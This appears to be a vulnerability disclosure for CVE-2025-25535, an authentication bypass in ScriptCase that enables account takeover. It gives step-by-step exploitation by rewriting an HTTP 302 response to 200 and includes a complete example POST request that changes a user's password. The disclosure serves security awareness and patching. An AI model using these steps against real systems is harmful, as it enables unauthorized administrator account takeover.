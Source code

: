 ## CVE-2025-25535: HTTP Response Manipulation Leading to Full Account Takeover

## Vulnerability Description

The CVE-2025-25535 vulnerability is a critical security flaw in ScriptCase Version 1.0.002 – Build 7, which allows an attacker to manipulate HTTP responses to bypass authentication mechanisms and take full control of an administrator account. This flaw occurs due to inadequate validation of tokens and request authenticity in the password recovery functionality.
By intercepting and modifying the HTTP response of the login page, an attacker can force the display of the password recovery screen without needing to validate the email or know the previous password. This allows the attacker to change the password of any user, including administrator accounts, resulting in a full account takeover.

## Affected Components

Login Page: http://IP:8092/scriptcase/prod/lib/php/devel/iface/login.php

Password Recovery Functionality: Endpoint responsible for processing password changes.

## Impact

Unauthorized Access: An attacker can take control of administrator accounts, gaining full access to the production environment.
System Compromise: Access to sensitive data, system configurations, and critical functionalities.
Lack of Validation: The absence of token validation or request authenticity checks makes exploitation trivial.

## Step-by-Step Exploitation
1.Request Interception:
Use an interception tool like Burp Suite or OWASP ZAP to capture the login request.

2.HTTP Response Manipulation:
Change the response code from HTTP/302 (Redirect) to HTTP/200 (Success).
This forces the display of the password recovery screen, bypassing email and previous password validation.

3.Password Change:
Enter a new password in the recovery field.
Confirm the change, taking control of the account.

4.Access to the Administration Panel:
Use the altered credentials to access the ScriptCase administration panel.

## Example Payload

```
POST /scriptcase/prod/lib/php/devel/iface/login.php HTTP/1.1
Host: IP:8092
Content-Length: 118
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.112 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://IP:8092
Referer: http://192.168.100.163:8092/scriptcase/prod/lib/php/devel/iface/login.php?rand=a35a0d78d62a01
Accept-Encoding: gzip, deflate, br
Accept-Language: pt-BR,pt;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: PHPSESSID=oh6pfmn198puvikv64hm91ni56; sales1.scriptcase-_zldp=%2Blf8JBkbzCQR1XJIvHDapdREcwzHVAx1Ak1yo%2B%2B12MHvy8myWMeVPxDkMUYHQXCt61H4KQEA5qU%3D; sales1.scriptcase-_zldt=926de0b1-a19b-4e89-81b6-ca6fe8502c37-0
Connection: close

ajax=nm&nm_action=change_pass&email=test%40test.com&pass_new=Teste123456&pass_conf=Teste123456&lang=pt-br&captcha=PSHE
```
